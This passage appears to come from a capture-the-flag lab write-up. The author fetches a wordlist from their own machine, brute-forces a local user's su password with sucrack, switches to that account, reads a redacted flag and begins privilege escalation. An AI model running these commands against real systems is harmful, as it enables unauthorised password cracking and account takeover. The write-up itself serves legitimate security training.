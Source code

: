 ```shell
hakanftp@ubuntu:/tmp/sucrack$ wget http://10.9.0.253:8000/modified_wordlist.txt -O /tmp/modified_wordlist.txt
hakanftp@ubuntu:/tmp/sucrack$ /tmp/sucrack/src/sucrack -w 100 -u hakanbey /tmp/modified_wordlist.txt
[...]
36838/803886
password is: 123adana{Redacted}
```

> Note: The worker number is recommended to set to 100, otherwise it would be painfully slow to brute force.

We successfully brute forced user `hakanbey`'s password!!

**Let's Switch User to that user:**
```shell
hakanftp@ubuntu:/tmp/sucrack$ su hakanbey
Password: 
hakanbey@ubuntu:/var/www/subdomain$ whoami;hostname;id;ip a
hakanbey
ubuntu
uid=1000(hakanbey) gid=1000(hakanbey) groups=1000(hakanbey),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:e0:8b:fe:8b:6d brd ff:ff:ff:ff:ff:ff
    inet 10.10.152.107/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::e0:8bff:fefe:8b6d/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `hakanbey`!!

**user.txt:**
```shell
hakanbey@ubuntu:/var/www/subdomain$ cat /home/hakanbey/user.txt 
THM{Redacted}
```

### hakanbey to root

Now, I wonder why we couldn't enumerate SUID binaries via `find` in `www-data` user.

**Let's check `find` file permission:**
```shell
hakanbey@ubuntu:/var/www/subdomain$ which find
/usr/bin/find
hakanbey@ubuntu:/var/www/subdomain$ ls -lah /usr/bin/find
-rwxr-x--- 1 root hakanbey 233K Nov  5  2017 /usr/bin/find
```
